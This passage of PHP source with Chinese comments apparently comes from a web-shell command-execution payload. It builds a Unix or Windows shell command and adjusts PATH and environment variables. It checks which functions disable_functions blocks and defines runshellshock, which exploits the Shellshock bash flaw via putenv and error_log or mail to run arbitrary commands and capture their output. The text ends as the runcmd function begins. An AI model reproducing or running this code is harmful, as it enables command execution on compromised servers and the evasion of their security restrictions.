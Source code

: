 ```php
    $c = (substr($d, 0, 1) == "/") ? "-c \"{$s}\"" : "/c \"{$s}\"";

    // 设置 PATH 环境变量（Unix / Windows）
    if (substr($d, 0, 1) == "/") {
        @putenv("PATH=" . getenv("PATH") . ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    } else {
        @putenv("PATH=" . getenv("PATH") . ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");
    }

    // 设置自定义环境变量
    if (!empty($envstr)) {
        $envarr = explode("|||asline|||", $envstr);
        foreach ($envarr as $v) {
            if (!empty($v)) {
                @putenv(str_replace("|||askey|||", "=", $v));
            }
        }
    }

    $r = "{$p} {$c}";

    // 判断函数是否可用
    function fe($f) {
        $d = explode(",", @ini_get("disable_functions"));
        if (empty($d)) {
            $d = array();
        } else {
            $d = array_map('trim', array_map('strtolower', $d));
        }
        return function_exists($f) && is_callable($f) && !in_array($f, $d);
    }

    // 利用 shellshock 漏洞执行命令
    function runshellshock($d, $c) {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") !== FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { x; }; {$c} >$tmp 2>&1");

                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }

                $output = @file_get_contents($tmp);
                @unlink($tmp);
                if ($output != "") {
                    print($output);
                    return True;
                }
            } else {
                return False;
            }
        }
        return False;
    }

    // 执行命令的主函数，支持多种方式
    function runcmd($c) {
        $ret = 0;
```